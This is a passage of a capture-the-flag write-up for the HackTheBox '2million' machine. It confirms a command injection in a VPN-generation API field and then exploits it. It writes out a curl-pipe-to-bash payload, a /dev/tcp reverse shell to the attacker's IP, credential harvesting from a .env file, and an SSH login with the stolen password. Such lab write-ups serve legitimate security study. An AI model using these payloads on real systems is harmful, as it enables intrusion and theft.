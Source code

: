 We try to inject a command in username field:

```bash
curl -sX POST http://2million.htb/api/v1/admin/vpn/generate \
     -H 'Cookie: PHPSESSID=95l2jmh73n84bjsl9ogmnvgefc' \
     -H 'Content-Type: application/json' \
     -d '{"username": "; sleep 2"}'
```
In this case, the response time is 2 seconds, so we can confirm that there is a command injection vulnerability.

We set up a reverse shell payload to exploit this vulnerability.
```bash
echo "#!/bin/bash
bash -c \"sh -i >& /dev/tcp/10.10.14.190/443 0>&1\"" > reverse.sh
nc -lvnp 443
python3 -m http.server 80

curl -sX POST http://2million.htb/api/v1/admin/vpn/generate \
     -H 'Cookie: PHPSESSID=95l2jmh73n84bjsl9ogmnvgefc' \
     -H 'Content-Type: application/json' \
     -d '{"username": "; curl http://10.10.14.190/reverse.sh | bash"}'

whoami
```
```
www-data
```

We find a `.env` file in `/var/www/html/`:

```bash
cat /var/www/html/.env
```
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

We use `admin:SuperDuperPass123` to log in as the admin user.
```bash
ssh admin@2million.htb
whoami
```
```
admin
```

We can check the user flag:

```bash
cat /home/admin/user.txt
```
```
user flag value
```

